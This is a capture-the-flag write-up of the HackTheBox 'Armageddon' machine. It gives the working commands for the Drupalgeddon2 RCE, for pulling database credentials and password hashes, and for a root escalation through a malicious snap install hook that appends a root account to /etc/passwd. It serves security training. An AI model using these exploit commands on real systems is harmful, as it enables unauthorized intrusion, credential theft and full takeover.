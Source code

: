 ![](armageddon_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.233 armageddon.htb

__nmap scan:__
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

* nmap found robots.txt file on the server.

## Identify CMS

* wappalyzer identify cms is drupal 7

![](screenshots/wappalyzer-scan.png)

* Running [droopescan](https://github.com/droope/droopescan) found the drupal version

![](screenshots/droopescan-scan.png)

* searching for exploit in searchsploit found RCE

![](screenshots/searchsploit-scan.png)

# Foothold:Drupal_drupalgeddon2

## Drupal drupalgeddon2 Exploit

* [CVE-2018-7600/SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)
  * A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.
* [gotmilk gist of diffrent drupal drupalgeddon2 PoCs](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708)

```bash
id=$(curl -k -s 'http://armageddon.htb/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=id' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id | cut -d'"' -f6) && echo $id

curl -s "http://armageddon.htb/?q=file/ajax/name/%23value/$id" \
    --data "form_build_id=$id" | head -n -1
```

![](screenshots/drupal-exploit.png)

## Exploit Script

* Drupalgeddon2 Exploit script from [dreadlocked@github](https://github.com/dreadlocked/Drupalgeddon2)

![](screenshots/web-shell.png)

## Getting user

shell is almost completely disconnected and restricted from file system. nothing to do here.

back to web server, found a file `/update.php` that tells access dinied and refer to `settings.php`
* Drupal cms sites all config settings available in the `../sites/<site-name>/settings.php`

![](screenshots/find-settings.png)

Found mysql database password in `settings.php` file

![](screenshots/db-creds.png)

creds are working but don't have intractive shell

![](screenshots/mysql-login.png)

Using mysql commandline flags to execute database command
```bash
-e, --execute=name  Execute command and quit.
-D, --database=name Database to use.
```

and found admin password hash who is also the user in the box
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'SELECT * FROM users;'
```

![](screenshots/pwd-hash.png)

admin user hash cracked with john 
```bash
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
![](screenshots/hash-cracked.png)

successfully login to ssh with admin creds

![](screenshots/ssh-login.png)

# Privesc:snap_install_with_sudo
<!--brucetherealadmin:booboo-->

in the box user "brucetherealadmin" have sudo right to run `/usr/bin/snap` as root with NOPASSWD.
```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Found Exploit on [gtfobins](https://gtfobins.github.io/gtfobins/snap/)

__Create snap package__
* Generate password hash with command `openssl passwd "Password"`
```bash
COMMAND='echo "toor:VmIEBMKbM9avc:0:0:root/root:/bin/bash" >> /etc/passwd'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p 'booboo' scp ./xxxx_1.0_all.snap brucetherealadmin@armageddon.htb:/home/brucetherealadmin/snap
```

And finally run
```bash
sudo -u root /usr/bin/snap install * --dangerous --devmode
```

![](screenshots/armageddon-rooted.png)

